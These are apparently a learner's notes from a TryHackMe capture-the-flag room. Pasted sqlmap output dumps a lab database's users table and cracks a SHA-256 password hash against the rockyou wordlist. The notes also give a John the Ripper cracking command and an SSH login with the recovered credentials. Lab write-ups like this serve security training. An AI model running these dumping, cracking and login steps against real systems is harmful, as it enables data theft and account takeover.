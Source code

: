 +----+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+

[07:58:50] [INFO] table 'db.post' dumped to CSV file '/home/kali/.local/share/sqlmap/output/10.10.224.42/dump/db/post.csv'                                                                                              
[07:58:50] [INFO] fetching columns for table 'users' in database 'db'
[07:58:50] [INFO] fetching entries for table 'users' in database 'db'
[07:58:50] [INFO] recognized possible password hashes in column 'pwd'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] y
[07:58:57] [INFO] writing hashes to a temporary file '/tmp/sqlmaph26xmc2c2247/sqlmaphashes-s3qnbv47.txt' 
do you want to crack them via a dictionary-based attack? [Y/n/q] y
[07:59:02] [INFO] using hash method 'sha256_generic_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 2
what's the custom dictionary's location?
> /usr/share/wordlists/rockyou.txt
[08:00:02] [INFO] using custom dictionary
do you want to use common password suffixes? (slow!) [y/N] n
[08:00:08] [INFO] starting dictionary-based cracking (sha256_generic_passwd)
[08:00:08] [INFO] starting 4 processes 
[08:00:16] [INFO] cracked password 'videogamer124' for user 'agent47'                                      
Database: db                                                                                               
Table: users
[1 entry]
+----------------------------------------------------------------------------------+----------+
| pwd                                                                              | username |
+----------------------------------------------------------------------------------+----------+
| ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14 (videogamer124) | agent47  |
+----------------------------------------------------------------------------------+----------+

[08:01:12] [INFO] table 'db.users' dumped to CSV file '/home/kali/.local/share/sqlmap/output/10.10.224.42/dump/db/users.csv'                                                                                            
[08:01:12] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/10.10.224.42'                                                                                                          
[08:01:12] [WARNING] your sqlmap version is outdated

[*] ending @ 08:01:12 /2022-02-11/

#ended up getting alot of data, and apparently sqlmap can try and crack the hashes for you
        #+ I need to update my sqlpmap 
#importnat info = password + username + table 'post'






### Cracking a password with JohnTheRipper ###
#I didnt use john, as sqlmap dehashed it for me, but command would be:
(kali㉿kali)-[~/THM/practice/gamezone]
└─$ john hash.txt -wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA256
        #where hash.txt contains the hash
#final step of this part of the room was to ssh into the machine
(kali㉿kali)-[~/THM/practice/gamezone]
└─$ ssh agent47@10.10.222.212          
The authenticity of host '10.10.222.212 (10.10.222.212)' can't be established.
ECDSA key fingerprint is SHA256:mpNHvzp9GPoOcwmWV/TMXiGwcqLIsVXDp5DvW26MFi8.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.222.212' (ECDSA) to the list of known hosts.
agent47@10.10.222.212's password: 
